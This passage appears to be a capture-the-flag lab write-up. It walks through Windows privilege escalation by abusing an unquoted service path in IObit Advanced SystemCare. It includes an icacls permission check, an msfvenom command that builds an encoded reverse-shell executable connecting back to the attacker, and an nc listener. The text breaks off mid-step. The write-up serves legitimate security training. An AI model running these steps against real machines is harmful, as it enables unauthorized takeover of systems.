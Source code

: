 > - An unquoted service path is a path that includes a `whitespace` character, most commonly `“space”`, and that isn’t properly escaped. This is true for the above path of
> - ….\Advanced SystemCare\ASCService.exe
> - What happens here is that the path will be interpreted from left to right and append `“.exe”` on each step until it reaches the intended target, in this case `“ASCService.exe”`.
> - Let’s have a look at the permissions of that folder, and who we are connected as.
> - Lets run `whoami` to figure out who we are, and then run the following command to know the file permissions.
{: .prompt-tip}

```shell
icacls “C:\Program Files (x86)\IObit\Advanced SystemCare”
```         

- Theres an unquoted service path vulnerability, that will run the first executable in the path.
- We are Bill & Bill has permissions to write in the `\IObit\` folder.
- The `CanRestart=True` parameter means that we can restart the service.

<hr> 

What we are going to do in a nutshell:

- Craft a malicious binary with name `“Advanced.exe”` — > since we are Bill and Bill has permission to write into `\IObit\` folder, put our `“Advanced.exe”` into the `C:\Program Files (x86)\IObit` folder — > restart service.

- Once the execution reaches `“…\IObit\Advanced”` it will append `.exe` to `“Advanced”` and therefor, executing our malicious binary.

> **Q. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?** <br>
  > Ans:- *AdvancedSystemCareService9*

<hr> 

###### Using Msfvenom to Create Payload

Let’s create our malicious binary, we’ll use msfvenom for creating our payload.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST={Your_Tunn_Interface_IP} LPORT=1234 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```                                                                                                            

![img](https://i.postimg.cc/tT6wSrt6/screenshot-75.png){: width="1280" height="720" .shadow}


Now upload this binary to the target machine using `upload` command.

![img](https://i.postimg.cc/4N9fGvvN/screenshot-76.png){: width="1280" height="720" .shadow}

Before we restart the service`(AdvancedSystemCareService9)` , we will setup a listener on our machine to get the reverse shell.

```shell
nc -lvnp 1234
```                                                                                                            

Alright, then let’s drop to a shell in our meterpreter session by typing `“shell”` and then stop the service using 
